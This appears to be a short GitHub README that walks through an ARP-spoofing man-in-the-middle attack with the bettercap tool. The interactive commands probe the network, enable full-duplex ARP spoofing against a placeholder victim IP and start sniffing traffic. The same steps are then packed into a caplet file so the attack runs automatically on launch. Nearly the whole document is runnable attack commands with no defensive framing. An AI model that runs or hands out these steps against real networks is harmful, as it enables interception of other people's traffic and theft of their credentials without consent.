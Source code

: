 # wifi_router-MMTK

     bettercap -iface wlan0
     help
     net.probe on 
     net.show

    
    help arp.spoof
    arp.spoof.fullduplex true 
    
    set arp.spoof.targets [ vigtim ip]
    arp.spoof on
    net.sniff on

    



# Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple Caplet file(file.cap) and adding the commands per line.

## Create the caplet:

touch spoof.cap

## Add the commands and save it :

nano spoof.cap

   
   
   net.probe on
   
   set arp.spoof.fullduplex true 
   
   set arp.spoof.targets 192.168.0.131
   
   arp.spoof on
   
   set net.sniff.local true
   
   net.sniff on


As you can see is the same commands in order that you used previously.

## Start the Bettercap using the spoof Caplet that you created:

    bettercap -iface eth0 -caplet spoof.cap
